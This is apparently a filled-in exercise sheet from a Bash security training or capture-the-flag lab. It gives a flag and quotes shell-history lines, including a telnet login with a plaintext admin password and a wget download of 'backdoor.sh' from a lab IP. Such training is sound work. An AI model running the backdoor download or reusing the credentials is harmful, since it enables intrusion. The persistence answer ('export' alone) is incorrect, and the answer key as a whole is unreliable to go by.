 ## 4. Bash Environment

## Exercises

1. On your student machine what is the value of the FLAG environment variable ?

> FLAG : BC{EXPORT_B4SH_FLAG}

2. Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

> Commands : export command=something

3.  **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 119 telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!

4.  **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines

